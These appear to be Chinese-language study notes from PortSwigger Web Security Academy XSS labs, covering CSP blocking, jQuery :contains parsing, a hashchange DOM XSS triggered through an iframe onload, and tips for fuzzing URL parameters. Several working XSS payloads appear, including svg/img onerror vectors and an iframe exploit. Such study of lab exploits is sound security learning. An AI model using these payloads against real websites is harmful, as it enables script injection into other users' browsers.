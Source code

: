 CSP是服务端通过响应的*Content-Security-Policy HTTP 标头* 给浏览器的策略，告诉浏览器不应该执行外部的代码

当出现：payload正确插入innerHtml中，没有被任何编码/过滤，但是不执行，就是被CSP了

常见被CSP的：

```
document.body.innerHTML = '<script>print()<\/script>'; 
document.body.innerHTML = '<svg onload=print()>'; 
document.body.innerHTML = '<iframe onload=alert(2)>';
```

### 3、JQuery 选择器:(:contains)会解析HTML标签

### 4、HashChange照成的XSS，需要使用iframe的onload进行二次加载

第一次访问：触发不了hashchange事件

```
https://0a3500c8034c839880aabc4c00c200ef.web-security-academy.net/#%3Cimg%20src=1%20onerror=alert()%3E
```

必须：

```
https://0a3500c8034c839880aabc4c00c200ef.web-security-academy.net/#
```

然后再：

```
https://0a3500c8034c839880aabc4c00c200ef.web-security-academy.net/#%3Cimg%20src=1%20onerror=alert()%3E
```

才能触发。

使用一个iframe能够将两步合成一步

```
<iframe src="https://0a3500c8034c839880aabc4c00c200ef.web-security-academy.net/#" onload="this.src += '<img src=1 onerror=print()>'" hidden="hidden">
</iframe>
```

### 5、寻找XSS原则：

1. 不是页面看输出，而是源码看输出

2. 输入不是只看页面中，还要结合页面/DOM，在URL中FUZZ参数

   ```
   https://0a30005b0369280181f30dd600aa0032.web-security-academy.net/my-account?email=xxx
   ```

   ```
   <input required="" type="email" name="email" value="xxx">
   ```

   这里的email参数就是fuzz出来的.
